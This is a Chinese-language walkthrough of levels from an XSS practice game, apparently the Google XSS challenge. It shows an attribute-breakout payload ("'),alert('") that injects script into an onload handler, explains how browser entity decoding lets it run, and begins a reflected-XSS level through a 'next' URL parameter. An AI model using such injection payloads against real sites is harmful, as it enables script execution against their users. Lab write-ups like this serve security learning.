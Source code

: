 ```html
<!doctype html>
...
    <img src="/static/loading.gif" onload="startTimer('xxx');" />
    <br>
    <div id="message">Your timer will execute in xxx seconds.</div>
...
</html>
```

如下两处可插入

首先尝试闭合第一个：js事件属性值中一般可以跟多个函数之间用',' / ' ;'隔离，但是必须是所有的函数都生效，不然一个都执行不了

payload:

```
'),alert('
```

响应html:

```
<img src="/static/loading.gif" onload="startTimer('&#39;),alert(&#39;');" />
```

**html源码 != 元素->查看html代码**

```
1. html源码/服务端返回的html响应 -> 浏览器解码等操作 -> F12元素查看html代码 -> 元素直接看到的

2. 而能不能执行的是看->元素查看html代码

3. 所以要学会编码绕过 必须搞明白 浏览器解码等操作 是怎么样子的
```

这段html代码经过浏览器处理，最终：F12 元素查看源码结果

```
<img src="/static/loading.gif" onload="startTimer(''),alert('');">
```

能够执行。

### 第五关：

反射xss

在点击signup的时候，触发a标签

```
<a href="/level5/frame/signup?next=confirm">Sign up</a>
```

在本地js代码中没有找到处理next参数，在network后找到signup?next=confirm的html响应

```html
<!doctype html>
<html>
 ...
    <a href="confirm">Next >></a>
  ...
</html>
```
